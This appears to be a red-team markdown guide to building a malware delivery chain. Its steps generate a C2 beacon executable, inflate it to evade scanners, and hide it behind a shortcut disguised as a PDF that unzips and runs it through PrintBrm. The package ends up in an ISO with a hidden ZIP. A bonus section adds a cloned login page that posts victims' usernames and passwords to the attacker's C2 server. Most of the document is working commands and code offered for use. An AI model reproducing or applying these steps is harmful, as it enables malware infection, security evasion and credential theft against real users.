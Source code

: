 # EXE with LNK + CMD

1. Generate the EXE
	* Attacks - Packages - Windows Executable (S)
      Field | Option
      ----- | -----
      Listener | HTTPS
      Output | Windows EXE 
      x64 | Checked 

   * Name the file `14-https.exe`

2. Download [Inflate.py](https://github.com/nayjones/inflate.py)
3. Inflate `14-https.exe` to be obnoxious
```
python2.7 inflate.py -f <beacon.exe> -s 2133
```
4. Move the inflated EXE to Windows
5. Create a malicious LNK file
```
$path                      = "$([Environment]::GetFolderPath('Desktop'))\Document.pdf.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
$shortcut.TargetPath       = "cmd.exe"
$shortcut.WorkingDirectory = ""
$shortcut.Description      = "2L2Q"

$shortcut.WindowStyle      = 7

$shortcut.Save()
```
6. Add the ZIP to a folder on the Desktop called ZIPME
7. ZIP the EXE using PrintBrm
```
C:\Windows\System32\spool\tools\PrintBrm.exe -b -d C:\Users\Administrator\Desktop\ZIPME -f C:\Users\Administrator\Desktop\14-https-inflate.zip
```
8. Right click the new LNK file and select Properties
9. Edit the `Target` options to:
```
C:\Windows\System32\cmd.exe /c xcopy .\14-https-inflate.zip %TEMP% /h /y && C:\Windows\System32\spool\tools\PrintBrm.exe -r -f %TEMP%\14-https-inflate.zip -d %TEMP%\unzip & %TEMP%\unzip\14-https-inflate.exe 
```
10. Move the LNK and ZIP file to the share and move to Kali
11. Make the ISO with the hidden ZIP file with the following command
```
mkisofs -o /share/Working/name/14/14-https-inflate.iso -J -r -V "14-https-inflate" -hidden /share/Working/name/14/14-https-inflate.zip -graft-points "/=/share/Working/name/14"
```
**BONUS ROUND**
* Combine this with internal phishing
	* Make a clone of their login page with a tool like `SingleFile`
	* Modify the HTML code to send the username/password as a POST request to your C2
	* Add the HTML file (a.html) to the same folder above in Step 6
	* Modify the LNK file to be
    ```bash
    C:\Windows\System32\cmd.exe /c xcopy .\14-https-inflate.zip %TEMP% /h /y && C:\Windows\System32\spool\tools\PrintBrm.exe -r -f %TEMP%\14-https-inflate.zip -d %TEMP%\unzip & "C:\Program Files\Internet Explorer\iexplore.exe" -k %TEMP%/unzip/a.html & %TEMP%\unzip\14-https-inflate.exe 
    ```
	* ZIP up the EXE and HTML page as noted in step 7
	* Move the ZIP and LNK over to Kali and make the ISO the same way
